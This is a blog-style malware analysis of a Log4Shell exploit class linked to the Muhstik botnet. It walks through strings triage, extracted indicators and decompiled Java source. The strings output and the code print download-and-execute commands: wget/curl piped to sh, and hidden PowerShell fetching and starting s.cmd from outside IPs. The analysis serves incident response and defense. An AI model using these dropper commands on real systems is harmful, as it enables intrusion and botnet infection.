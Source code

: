 ```yaml
---
layout: post
title: "Analyzing a Log4Shell log4j Exploit from Muhstik"
date: 2021-12-12
categories: log4jshell malware java powershell muhstik
permalink: /analyzing-log4shell-muhstik/
---
```


In this post I set out to analyze a simple chunk of Log4Shell log4j exploit code to see how it works.

## Finding the Exploit

I wasn't running a honeypot or anything, I just figured I could rustle around VirusTotal and find one using this search:

`tag:java-bytecode positives:1+`

Out of the files I saw, I ended up settling on this simple one:

[https://www.virustotal.com/gui/file/2b5f04d15e459132a5935260746788db39b469ea46859c4a5bb8625f8a80bd41](https://www.virustotal.com/gui/file/2b5f04d15e459132a5935260746788db39b469ea46859c4a5bb8625f8a80bd41)

## Triaging for Indicators

If you're working an incident it helps to have some indicators you can feed over to the rest of your team to identify behaviors or other data. One of the easiest ways to find low-hanging indicators in malware is using the `strings` command.

```
remnux@remnux:~/cases/muhstik$ strings Exploit.class 

<init>
Code
LineNumberTable
<clinit>
StackMapTable
SourceFile
Exploit.java
java/lang/String
	/bin/bash
S(wget -qO - hxxp://18.228.7[.]109/.log/log || curl hxxp://18.228.7[.]109/.log/log) | sh
os.name
powershell
hidden
(new-object System.Net.WebClient).Downloadfile('hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd', 's.cmd');start-process s.cmd
java/lang/Exception
com/knal/muhstik/Exploit
java/lang/Object
[Ljava/lang/String;
java/lang/System
getProperty
&(Ljava/lang/String;)Ljava/lang/String;
toLowerCase
()Ljava/lang/String;
startsWith
(Ljava/lang/String;)Z
java/lang/Runtime
getRuntime
()Ljava/lang/Runtime;
exec
(([Ljava/lang/String;)Ljava/lang/Process;
java/lang/Process
waitFor
Ljava/io/PrintStream;
toString
java/io/PrintStream
println
(Ljava/lang/String;)V
```

Keep in mind that `strings` doesn't grab Unicode characters by default, so you'll need to run a second pass using `strings -eL`. In this case, I found no additional strings.

Useful indicators from this threat include:

- `hxxp://18.228.7[.]109/.log/log`
- `hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd`
- `com/knal/muhstik/Exploit`

The last string proves useful to find intelligence overlaps. The Muhstik botnet has used the strings `knal` and `muhstik` in parts of its exploitation [in the past](https://sysdig.com/blog/muhstik-malware-botnet-analysis/).

## Reversing to Java Source

Reversing the Java bytecode in a class file back to source is relatively easy, and I recommend using [JD-GUI](http://java-decompiler.github.io/) for the job. Pretty much all of the work is done for you (assuming the code isn't obfuscated) and you'll get a clean view of the code.

![JD-GUI Code Decompiler](/assets/images/analyzing-log4jshell-muhstik/muhstik-re-1.png)

This code is a simple example of cross-platform exploit code.

```java
String[] arrayOfString = { "/bin/bash", "-c", "(wget -qO - hxxp://18.228.7[.]109/.log/log || curl hxxp://18.228.7[.]109/.log/log) | sh" };

if (System.getProperty("os.name").toLowerCase().startsWith("win"))
	arrayOfString = new String[] { "powershell", "-w", "hidden", "-c", "(new-object System.Net.WebClient).Downloadfile('hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd', 's.cmd');start-process s.cmd" }; 

Runtime runtime = Runtime.getRuntime();
Process process = runtime.exec(arrayOfString);
process.waitFor();
```

The code uses [`System.getProperty()`](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html) to determine if the server is running Windows or not. If it is, the code executes PowerShell with commands to [download](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0) `s.cmd` and then [execute](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7.2) it. If the server isn't running Windows, the code executes `curl` and/or `wget` commands depending on what is available on the exploited system.

The actual shell commands are kicked off by [`Runtime.exec`](https://docs.oracle.com/javase/7/docs/api/java/lang/Runtime.html) and then the code waits for the commands to complete.